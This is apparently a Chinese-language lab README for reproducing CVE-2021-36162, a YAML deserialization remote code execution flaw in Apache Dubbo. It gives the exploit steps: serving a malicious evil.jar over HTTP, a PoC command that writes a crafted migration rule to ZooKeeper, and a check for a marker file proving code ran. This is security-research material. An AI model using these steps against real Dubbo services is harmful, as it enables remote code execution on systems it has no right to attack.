


# Apache Dubbo Migration Rule YAML 反序列化远程命令执行漏洞（CVE-2021-36162）

Apache Dubbo 是一款高性能 Java RPC 服务框架。

Apache Dubbo 2.7.0 至 2.7.12 版本以及 3.0.0 至 3.0.1 版本存在 YAML 规则解析远程命令执行漏洞。当 Dubbo Consumer 订阅 ZooKeeper 配置中心中的迁移规则时，攻击者可控的 YAML 内容会被 SnakeYAML 以不安全的方式解析。能够写入配置中心的攻击者，可以通过恶意 YAML 文档实例化任意 Java 类，并在 Consumer 进程中执行代码。该漏洞已在 Apache Dubbo 2.7.13 和 3.0.2 中修复。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2021-36162>
- <https://lists.apache.org/thread.html/rfa351115a459e214b99ffcc52c35f33359f3370c547d9c6ba1a60037%40%3Cdev.dubbo.apache.org%3E>
- <https://securitylab.github.com/advisories/GHSL-2021-094-096-apache-dubbo/>

## 环境搭建

执行如下命令启动 Apache Dubbo 2.7.12：

```
docker compose up -d
```

环境会启动 ZooKeeper、Dubbo Provider 和 Dubbo Consumer。Consumer 使用 ZooKeeper 作为配置中心，并订阅迁移规则，本环境即通过这条解析路径复现漏洞。

## 漏洞复现

容器启动后，先等待 Consumer 完成配置中心订阅，并开始正常调用 Provider 或输出重试信息：

```
docker compose logs consumer
```

先使用 Java 8 构建外部 Dubbo PoC JAR：

```
(cd ../../base/dubbo/poc && mvn clean package)
```

在 [Java-Chains](https://github.com/vulhub/java-chains) 中生成 ScriptEngineSpiJar 并启动一个 HTTP 服务，将其暴露为 `evil.jar` 对外提供，也可以直接使用当前目录预生成的 `evil.jar`：



```
python -m http.server 8888
```

在另一个终端中，向 ZooKeeper 写入恶意迁移规则。如果 Consumer 容器无法通过 `host.docker.internal` 访问宿主机，请替换为容器可访问的 `evil.jar` 地址：

```
java -jar ../../base/dubbo/poc/target/dubbo-poc-1.0-SNAPSHOT.jar CVE-2021-36162 127.0.0.1:2181 http://host.docker.internal:8888/evil.jar
```

辅助程序会将恶意 YAML 文档写入 `/dubbo/config/MIGRATION/demo-consumer.migration`，并打印 ZooKeeper 地址、evil JAR URL 和规则路径。ZooKeeper 将迁移规则变更推送给 Consumer 后，Dubbo 会通过配置中心加载该规则，SnakeYAML 随后实例化指向 `evil.jar` 的 URLClassLoader 和 `javax.script.ScriptEngineManager`。

最后进入 Consumer 容器验证命令执行结果：

```
docker compose exec consumer ls -l /tmp/CVE-2021-36162-PWNED
```

如果可以看到 `/tmp/CVE-2021-36162-PWNED` 文件，即说明 Consumer 解析了攻击者可控的迁移规则，并从 `evil.jar` 加载了恶意 `ScriptEngineFactory`。


